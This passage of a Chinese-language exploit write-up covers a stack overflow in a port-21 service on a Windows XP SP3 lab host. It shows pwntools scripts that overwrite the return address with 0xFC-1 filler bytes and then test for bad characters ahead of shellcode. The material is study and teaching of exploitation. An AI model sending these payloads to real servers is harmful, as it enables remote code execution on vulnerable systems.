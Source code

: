  

只需填充 0xFC-1 个垃圾数据可溢出到函数返回地址（-1 是因为程序在输入字符串前添加了单引号），重新组织 poc，返回地址为 cccc

```
from pwn import *
p = remote("192.168.112.146", 21)
payload = 'A'*(0xfc-1) + 'cccc'
p.sendline(payload)
p.interactive()

```

返回地址为 0x63636363，是 cccc 的 ascii 码，验证成功

 

![](https://bbs.pediy.com/upload/attach/202103/913279_VETZCUJB797UMES.png)

### 4. 漏洞利用

#### 1. 利用条件

Windows xp sp3 未开启 DEP 保护

#### 2. 利用过程

##### 1. 排除坏字符

在生成 shellcode 之前需要确定坏字符，用 mona 生成一个 0x00 到 0xff 的 bytearray，发送 payload，比对哪个字符发送后会破坏 payload，将其排除即可

```
from pwn import *
p = remote('192.168.112.146',21)
bytearray = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
payload = 'a'*(0xfc-1) + 'cccc' + bytearray
p.sendline(payload)
p.interactive()

```
